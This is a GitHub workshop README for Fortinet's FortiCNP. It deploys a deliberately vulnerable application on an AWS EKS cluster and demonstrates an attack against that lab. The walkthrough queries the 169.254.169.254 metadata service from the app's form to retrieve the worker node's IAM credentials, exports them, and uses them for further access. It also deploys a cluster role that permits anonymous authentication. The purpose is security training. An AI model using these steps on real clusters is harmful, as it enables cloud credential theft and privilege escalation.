 <h1>Workshop FortiCNP - EKS Use Case </h1>

<h3>About</h3>
<p>
The main purpose of this project is to create an EKS cluster with a flaw application to explore some vulnerabilities and see how FortiCNP can support you during your cloud security operation. 
</p>
<p><strong> FortiCNP </strong> is a new Fortinet Cloud Native Protection product that is designed to help you address today’s cloud security needs by integrating with Cloud Native Security services as well as Fortinet Security Fabric products.</p>

<h3>Resources</h3>
<p>The following  resources will be deployed into your AWS account:</p>


<strong>VPC</strong>
* 1 x VPC
* 4 x Subnets. 2 Publics and 2 Privates
* 2 x Route Tables
* 1 x Nat Gateway
* 1 x IGW

<strong>EKS Cluster</strong>
* 1 EKS Cluster with a single WorkerNode

<strong> IAM </strong>
* IAM User for EKS Cluster management

<strong> Bastion EC2 Instance </strong>
* 1x EC2 Instance for EKS cluster api access/management


<h3>Use Case</h3>

<p>In this use case, we will discuss the risks of the AWS Instance Metadata service in AWS Elastic Kubernetes Service (EKS) clusters. We will demonstrate that deploying a flaw application with misconfiguration of AWS resources such as IAM policies can have disastrous consequences in the AWS account.</p>
<p><a href=https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html> Instance Metadata service </a> is an AWS API listening on a link-local IP address, 169.254.169.254. It is only accessible from EC2 instances and allows to retrieve many information about them.</p>

<h3>Deploy AWS Resources</h3>
<p>Follow the deployment process below to deploy EKS cluster in your AWS Account </p>
<ul>
<li>1. First you need to deploy the Cloudformation template filename Activate_AWSQS_extentation.yaml. This file will activate CloudFormation Extension <strong>AWSQS::EKS::Cluster</strong>. For more information about it you can find <a href="https://github.com/aws-quickstart/quickstart-amazon-eks-cluster-resource-provider"> here</a></li>
<li>2. Deploy the cloudformation template EKS.yaml</li>
It will take around 20 minutes to complete.
</ul>

<h3>Deploy Application</h3>
<p>Follow the  process below to deploy a flaw application on top of EKS</p>
<ul>
<li>1. Connect to an EC2 Bastion host created. If you have Key Pair you can use it to connect through SSH. If not, use Connect button available in the console</li>
<li>2. Open the folder forticnp-k8s/application through cd /forticnp-k8s/application.</li>
<li>3. Deploy the application with the following command.
kubectl create -f deployment_k8s_attack.yaml
</li>
<li>4. Deploy the service to expose the application with the following command.
kubectl create -f service_k8s_attack.yaml
</li>
<li>5. Deploy the cluster role available in the file anonymous.yaml. This will create a cluster role to allow anonymous cluster authentication.
kubectl create -f anonymous.yaml
</li>
</ul>

<h3>Accessing the Instance Metadata service from a compromised pod</h3>
<ul>
<li>1. Open the application URL. Get the URL with the command below.
<p> kubectl get svc service-k8s-attack</p>
<img src='/img/get_service.PNG'>
</li>
<li>2. "Launch http://EXTERNAL-IP_from previous_command:8080".
<img src='/img/home_page.PNG'>


</li>
<li>3. You can explore Instance Metadata. Copy and paste the command below in the form that will return informations about the EKS WorkerNode.
<p>http://169.254.169.254/latest/meta-data/</p>
</li>
<p>You can explore all Metadata information</p>
<li>4. You can grab the access key and secret key with the commands below.
<p> Let's see which IAM role is applied to EC2 WorkerNode with the command below. </p>
<p>http://169.254.169.254/latest/meta-data/iam/security-credentials/</p>
<img src='/img/iam_role_workernode.PNG'>
<p>IAM role Name: FortiCNPEKS1-NodeInstanceRole-BDYEZXD9YLRB</p>
</li>
<li>5. Now you can retrieve security credentials.
<p>The following link retrieves security credentials for IAM name  FortiCNPEKS1-NodeInstanceRole-BDYEZXD9YLRB. Replace with IAM credential</p>
<p>http://169.254.169.254/latest/meta-data/iam/security-credentials/FortiCNPEKS1-NodeInstanceRole-BDYEZXD9YLRB</p>
</li>

<li>5. You will get the security credentials. As you can see in the image below.
<img src='/img/security_credentials.PNG'>
</li>

<li>6. You can use it to have aditional access. For instance, list S3 buckets available in your AWS account.
<p>First, you can verify that you are not allowed to list S3 buckets with the current credential</p>
<p>aws s3 ls</p>
<p>Replace your AWS credentials with the Access Key, Secret Key and Token from the previous step </p>
<p> export AWS_ACCESS_KEY_ID="New_Access_Key"</p>
<p> export AWS_SECRET_ACCESS_KEY="New_Secret_Key"</p>
<p> export AWS_SESSION_TOKEN="Token"</p>
</li>
<img src='/img/new_access_credentials.PNG'>

</ul>